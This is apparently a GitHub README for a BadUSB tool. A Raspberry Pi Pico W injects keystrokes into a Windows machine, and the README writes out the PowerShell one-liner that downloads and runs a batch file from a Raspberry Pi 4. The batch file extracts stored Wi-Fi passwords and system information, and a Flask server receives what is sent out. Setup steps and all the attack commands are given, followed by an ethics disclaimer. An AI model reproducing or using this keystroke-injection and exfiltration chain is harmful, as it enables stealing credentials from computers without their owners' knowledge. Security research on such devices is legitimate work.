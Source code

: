 # 🔥 BadUSB Wi-Fi Data Extractor with Raspberry Pi 4 & Pico W

## 📖 Overview
This project demonstrates how a **Raspberry Pi Pico W** can emulate a **BadUSB device**, injecting commands to a Windows machine via HID (Human Interface Device). The script downloads a **batch file (`testscript.bat`)** from a **local server running on a Raspberry Pi 4**, executes it, and sends back **Wi-Fi credentials and system information**.

---

## 🛠️ **Hardware Used**
- ✅ **Raspberry Pi 4** (runs the HTTP server and collects data)
- ✅ **Raspberry Pi Pico W** (acts as a BadUSB, injects keystrokes)
- ✅ **Target Machine** (Windows-based, where the script runs)

---

## 🏗️ **Project Structure**

```
GitHub repository is structured as follows:
📦 YourRepo  ┣ 📂 httpserver                              ┃  
             ┣ 📜 server.py                               ┣ 📜 testscript.bat
             ┗ 📜 README.md # Documentation (this file)   ┣ 📜 code.py
             ┗ 📜 .gitignore
```



---

## 📥 **Setup & Installation**

### 🖥️ **1. Setting Up Raspberry Pi 4 (HTTP Server)**
The Raspberry Pi 4 will act as a **web server** hosting `testscript.bat` and collecting data sent from the Windows machine.

#### 🔹 **Step 1: Install Dependencies**
First, install **Flask** (for handling data uploads):
```bash
sudo apt update && sudo apt install python3 python3-pip -y
pip3 install flask
```
#### 🔹 **Step 2: Install Dependencies**
```bash
git clone https://github.com/JelleWierenga/Keystroke-injection/tree/main/badusb
cd badusb/httpserver
```

#### 🔹 **Step 3: Inside your repo, create the required folders and files:**
```bash
mkdir httpserver
touch code.py
touch httpserver/server.py
touch httpserver/testscript.bat
touch httpserver/README.md
touch .gitignore
```

#### 🔹 **Step 4: Run the HTTP Server**
To start a basic file server on port `8080`, run:
```bash
python3 -m http.server 8080
```
This allows the Windows machine to download `testscript.bat`.
#### 🔹 **Step 5: Run the HTTP Server**
Now, launch the Flask server (`server.py`) to receive Wi-Fi credentials:
```bash
python3 server.py
```
**The Flask server listens on port** `5000` and stores incoming data in `collected_data.txt`.

### 🎛️ **2. Setting Up the Raspberry Pi Pico W (BadUSB Payload)**
The Pico W will act as a BadUSB device, injecting keystrokes to download and execute the batch script from the Raspberry Pi 4.

#### 🔹 **Step 1: Install CircuitPython**
1. Download the latest CircuitPython firmware for the Pico W from:
   👉 https://circuitpython.org/board/raspberry_pi_pico_w/
2. Hold **BOOTSEL** on the Pico W and connect it via USB.
3. Drag and drop the `.uf2` file onto the RPI-RP2 drive.

#### 🔹 **Step 2: Install Required CircuitPython Libraries**
Download and place these libraries in `CIRCUITPY/lib/`:
`adafruit_hid`
`usb_hid`
#### 🔹 **Step 3: Upload `code.py` to the Pico W**
Copy `code.py` from the GitHub repository to `CIRCUITPY/` on the Pico W.
#### 🔹 **Step 4: Test the BadUSB Execution**
Once plugged into a Windows machine, the Pico W will:
1. **Open CMD via Win + R**
2. **Run a PowerShell command to download** `testscript.bat`
3. **Execute the script, extract Wi-Fi passwords, and send them to the Pi 4**

## 🚀 How It Works
### 📡 1.  BadUSB Payload Execution (Pico W)
The `code.py` script simulates keyboard input, injecting:

```bash
Invoke-WebRequest -Uri "http://{rpi ip}:8080/testscript.bat" -OutFile "C:\\Temp\\testscript.bat"; Start-Process -FilePath "cmd.exe" -ArgumentList "/c C:\\Temp\\testscript.bat" -NoNewWindow -Wait
```
This **downloads and executes** the `testscript.bat` file.

### 🖥️ 2. Batch Script Execution on Windows
The t`estscript.bat` script:

1. Retrieves system information (`systeminfo`)
2. Extracts stored Wi-Fi credentials:
```bash
netsh wlan show profile name="SSID" key=clear
```
3. Sends the data back to the Raspberry Pi 4 via:
```bash
Invoke-WebRequest -Uri "http://{rpi ip}:5000/upload" -Method POST -InFile "C:\\Temp\\wifi_password.txt" -ContentType "text/plain"
```

### 🌍 3. Data Reception & Storage (Pi 4)
The `server.py` script listens for POST requests and logs incoming data:
```pycon
from flask import Flask, request
app = Flask(__name__)
@app.route('/upload', methods=['POST'])
def upload():
    data = request.data.decode("utf-8")
    with open("collected_data.txt", "a") as f:
        f.write(data + "\n")
    return "Data received", 200
app.run(host='0.0.0.0', port=5000)
```

## 🛡️ Security & Ethical Considerations
🚨 **This project should only be used for educational and security research purposes on your own devices!** 🚨
* Do **NOT** use this on unauthorized systems.
* **Penetration testing without consent is illegal.**
* Modify the project to collect **only your own network information.**

## ⚠️ Disclaimer
I, the creator of this project, am **not responsible for any misuse, harm, or illegal activities** conducted using this tool. This project is intended **strictly for educational and ethical hacking purposes**. Any misuse of this information is **solely the responsibility of the user.**